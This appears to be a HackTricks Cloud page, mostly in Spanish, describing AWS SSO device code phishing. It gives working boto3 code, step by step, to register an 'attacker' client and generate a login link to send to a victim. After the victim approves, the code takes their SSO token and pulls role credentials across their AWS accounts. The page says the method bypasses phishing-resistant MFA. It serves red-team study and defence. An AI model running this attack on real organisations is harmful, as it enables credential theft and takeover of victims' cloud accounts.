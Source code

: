 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## AWS Device Code Phishing

Inicialmente propuesto en [**esta publicación del blog**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), es posible enviar un **enlace** a un usuario que utiliza AWS SSO que, si el **usuario acepta**, el atacante podrá obtener un **token para suplantar al usuario** y acceder a todos los roles a los que el usuario puede acceder en el **Identity Center**.

Para realizar este ataque, los requisitos son:

* La víctima necesita usar **Identity Center**
* El atacante debe conocer el **subdominio** utilizado por la víctima `<victimsub>.awsapps.com/start`

Solo con la información anterior, el **atacante podrá enviar un enlace al usuario** que, si es **aceptado**, otorgará al **atacante acceso a la cuenta** del usuario de AWS.

### Attack

1. **Finding the subdomain**

El primer paso del atacante es averiguar el subdominio que la empresa víctima está utilizando en su Identity Center. Esto se puede hacer a través de **OSINT** o **adivinando + BF**, ya que la mayoría de las empresas utilizarán su nombre o una variación de su nombre aquí.

Con esta información, es posible obtener la región donde se configuró el Identity Center:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Generar el enlace para la víctima y enviarlo**

Ejecuta el siguiente código para generar un enlace de inicio de sesión de AWS SSO para que la víctima pueda autenticarse.\
Para la demostración, ejecuta este código en una consola de python y no la cierres, ya que más tarde necesitarás algunos objetos para obtener el token:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Envía el enlace generado a la víctima utilizando tus increíbles habilidades de ingeniería social.

3. **Espera hasta que la víctima lo acepte**

Si la víctima ya estaba **conectada a AWS**, solo necesitará aceptar otorgar los permisos; si no lo estaba, necesitará **iniciar sesión y luego aceptar otorgar los permisos**.\
Así es como se ve el aviso hoy en día:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Obtén el token de acceso SSO**

Si la víctima aceptó el aviso, ejecuta este código para **generar un token SSO suplantando al usuario**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
El token de acceso SSO es **válido por 8h**.

5. **Suplantar al usuario**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing the unphisable MFA

Es divertido saber que el ataque anterior **funciona incluso si se está utilizando un "MFA inphishable" (webAuth)**. Esto se debe a que el **flujo de trabajo anterior nunca sale del dominio OAuth utilizado**. A diferencia de otros ataques de phishing donde el usuario necesita suplantar el dominio de inicio de sesión, en el caso del flujo de trabajo del código del dispositivo, se prepara de tal manera que un **código es conocido por un dispositivo** y el usuario puede iniciar sesión incluso en una máquina diferente. Si se acepta el aviso, el dispositivo, solo por **conocer el código inicial**, podrá **recuperar credenciales** para el usuario.

Para más información sobre esto [**consulta esta publicación**](https://mjg59.dreamwidth.org/62175.html).

### Automatic Tools

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome_phish)

## References

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
